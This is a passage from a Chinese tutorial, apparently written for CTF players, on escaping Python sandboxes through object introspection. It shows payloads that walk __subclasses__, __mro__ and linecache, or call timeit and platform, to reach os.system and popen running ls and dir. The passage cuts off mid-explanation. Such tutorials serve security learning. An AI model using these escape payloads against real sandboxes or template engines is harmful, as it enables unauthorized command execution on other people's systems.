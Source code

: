 [].__class__.__base__.__subclasses__()[59]()._module.linecache.os.system('ls')
timeit

import timeit
timeit.timeit("__import__('os').system('dir')",number=1)
platform

import platform
print platform.popen('dir').read()
from_object

限于篇幅在此不多赘述，详细请参考：传送门(https://www.freebuf.com/articles/web/98619.html)


此处手动分界线。后文讲解做题会遇到的一些问题
python中一切均为对象，均继承object对象

```python
''.__class__.__mro__[-1] 

>>>[].__class__.__bases__[0]
 
>>><type 'object'> 

>>>''.__class__.__mro__[-1] 

<type 'object'>
```

获取字符串的类对象

''.__class__

<type 'str'>

寻找基类

''.__class__.__mro__

(<type 'str'>, <type 'basestring'>, <type 'object'>)

查看实现类和成员

```python
''.__class__.__mro__[1].__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```
例如我要使用os模块执行命令
